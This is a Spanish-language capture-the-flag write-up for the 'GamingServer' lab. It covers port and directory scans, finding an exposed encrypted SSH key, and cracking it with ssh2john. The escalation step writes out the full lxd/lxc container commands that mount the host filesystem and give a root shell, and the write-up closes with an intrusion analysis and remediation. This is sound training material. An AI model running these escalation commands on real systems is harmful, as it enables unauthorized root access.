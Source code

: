 # GamingServer
## Initial Scan
```
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:0e:fe:06:12:67:3e:a4:eb:ab:7a:c4:81:6d:fe:a9 (RSA)
|   256 49:61:1e:f4:52:6e:7b:29:98:db:30:2d:16:ed:f4:8b (ECDSA)
|_  256 b8:60:c4:5b:b7:b2:d0:23:a0:c7:56:59:5c:63:1e:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: House of danak
```
## Enum
### HTTP
En la main page tenemos el siguiente comentario
```
<!-- john, please add some actual content to the site! lorem ipsum is horrible to look at. -->
```
De ahi lo mismo podemos sacar un usuario, john
#### Gobusting
```
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/robots.txt (Status: 200)
/secret (Status: 301)
/server-status (Status: 403)
/uploads (Status: 301)
```
#### Secret
En secret encontramos un archivo con una key RSA encriptada
```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,82823EE792E75948EE2DE731AF1A0547
.
.
.
-----END RSA PRIVATE KEY-----
```
## Exploit
Crackeamos la key con ssh2john y con ella accedemos como el usuario john.

## Privesc
Vemos que el usuario pertenece al grupo lxd
```
uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```
Sabiendo esto, tenemos un vector de escalada de privilegios bien conocido
```
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
```
Abrimos un sevidor en local y nos traemos con wget el tar.gz que genera build-alpine, una vez lo tenemos hacemos lo siguiente
```
lxc image import ./apline.tar.gz --alias myimage
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
```

# Analisís de la intrusión
## Sensible data exposure
Las clave privada de acceso del usaurio john es accesible para usuarios externos esto nos permitio descargarlas e intentar crackearla
## Weak password police
La contraseña para la clave pirvada de john es debil lo que nos permitio crackearla facilmente
## lxd
Existe un fallo de seguridad critico que permite a un usuario pertenciente al grupo lxd obtener una shell privilegiada en una copia identica del sistema bajo mnt permitiendo arbitrary file read 

# Soluciones
## lxd
EL parche actualmente recomendado es eliminar la pertenencia a lxd de los usuarios regulares
